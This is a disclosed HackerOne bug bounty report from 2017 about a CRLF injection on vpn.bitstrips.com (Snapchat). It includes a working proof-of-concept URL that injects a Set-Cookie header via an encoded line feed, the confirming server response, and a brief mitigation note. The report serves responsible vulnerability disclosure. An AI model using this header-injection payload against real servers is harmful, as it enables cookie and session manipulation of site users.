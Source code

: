 # CRLF Injection at vpn.bitstrips.com

## Report Details
- **Report ID**: 237357
- **URL**: https://hackerone.com/reports/237357
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2017-06-06T20:03:52.395Z
- **Disclosed**: 2017-06-15T23:28:22.360Z

## Reporter
- **Username**: wplus
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: snapchat

## Vulnerability Information
HI

I found that the site https://vpn.bitstrips.com/ is vulnerable to a CRLF Injection.
By injecting a Carriage Return and Line Feed character, we are able to make the server issue a set-cookie header.

GET Request :
```

https://vpn.bitstrips.com/__session_start__/%0aSet-Cookie:malicious_cookie1

Host: vpn.bitstrips.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:53.0) Gecko/20100101 Firefox/53.0
Accept: text/plain, */*
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
X-OpenVPN: 1
X-CWS-Proto-Ver: 2
Referer: https://vpn.bitstrips.com/?src=connect
Content-Length: 29
Cookie: openvpn_sess_73209e0b8ad597c3861a05a79e873389=e769bd6ab9896e586227df60f33836f0
Connection: keep-alive

```
Response:
```
HTTP/1.1 302 Found
Transfer-Encoding: chunked
Date: Tue, 06 Jun 2017 20:00:36 GMT
Content-Type: text/html; charset=UTF-8
Location: https://vpn.bitstrips.com/
Set-Cookie: malicious_cookie1
Server: OpenVPN-AS
```

As can be seen in the response, the server will issue a Set-Cookie header with an arbitrary value and that cookie will be set on the client.

To mitigate this issue, the application should strip out any input which contains the %0d%0a URL encoded characters.


## Attachments
No attachments
